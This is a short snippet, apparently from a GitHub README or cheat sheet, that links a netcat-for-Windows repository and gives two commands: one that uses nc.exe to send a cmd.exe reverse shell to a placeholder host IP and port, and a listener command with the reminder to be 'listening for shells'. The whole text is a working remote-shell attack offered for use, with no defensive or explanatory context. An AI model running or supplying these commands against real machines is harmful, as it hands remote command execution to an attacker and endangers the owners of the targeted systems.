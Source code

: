
https://github.com/mt-code/netcat-windows

```shell
nc.exe -e cmd.exe {host ip} {port}
```

Make sure to be listening for shells!
```shell
sudo nc -lnvp {port}
```